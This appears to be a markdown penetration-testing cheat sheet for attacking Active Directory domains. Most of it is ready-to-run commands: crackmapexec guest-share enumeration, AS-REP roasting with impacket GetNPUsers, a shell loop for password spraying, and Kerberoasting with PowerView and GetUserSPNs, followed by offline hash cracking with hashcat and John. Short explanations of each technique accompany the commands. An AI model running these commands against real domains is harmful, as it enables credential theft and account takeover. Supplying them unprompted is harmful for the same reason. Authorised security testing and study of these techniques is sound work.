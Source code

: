 ### Testing guest access on shares
```
crackmapexec smb 10.X.X.X -u 'a' -p '' --shares
crackmapexec smb computers.txt -u 'a' -p '' --shares
```
In the above example, computers.txt is a file containing the **dnshostname**  of every computer beloging to the domain computers group
### ASREP - roasting
**AS-REP Roasting** is an attack technique used in Active Directory (AD) environments to target user accounts that do not require pre-authentication when requesting a Kerberos ticket. When pre-authentication is disabled, anyone could ask for a TGT in the name of one of these accounts, without sending any authenticator, and the domain controller will send back a KRB_AS_REP which is encrypted with user's password. Therefore, it can be cracked offline.

- **Prerequisite for this check** : List of domain users
- Command with impacket
```
GetNPUsers.py my.domain.com/ -no-pass -usersfile users.txt
```
The **/** at the end of the domain name is important 
- Cracking with hashcat 
```
hashcat -m 18200 asrephash rockyou2024.txt
```
### Password Spraying

- Scripting
```
for password in `cat default_weak_pass.txt`; 
do
crackmapexec smb 10.X.X.X -u users.txt -p $password | tee --append spray.txt ;
sleep 5m;
done 

cat spray.txt | grep '+';
```
**NB:** This script may take very long to run 

### Kerberoasting
Kerberoasting is an attack that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name (SPN). *An SPN is an attribute that ties a service to a user account within the AD.* The attacker impersonates an account user with a service principal name (SPN) and requests a service-related ticket. The password hash can be then cracked offline and used to log in with the plaintext credentials for advance attack.

Attacking with PowerView
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format John | Export-Csv .\kerberoast.csv -NoTypeInformation
```
Attacking with impacket
```
GetUserSPNs.py -request -dc-ip 10.X.X.X -k -nopass my.domain.com/pentestuser -outputfile kerberoasting.hashes
```
Cracking with hashcat 
```
hashcat -m 13100 -a 0 kerberoasting.hashes rockyou2024.txt --force
```
Cracking with John
```
/john kerberoasting.hashes --wordlist=rockyou2024.txt
```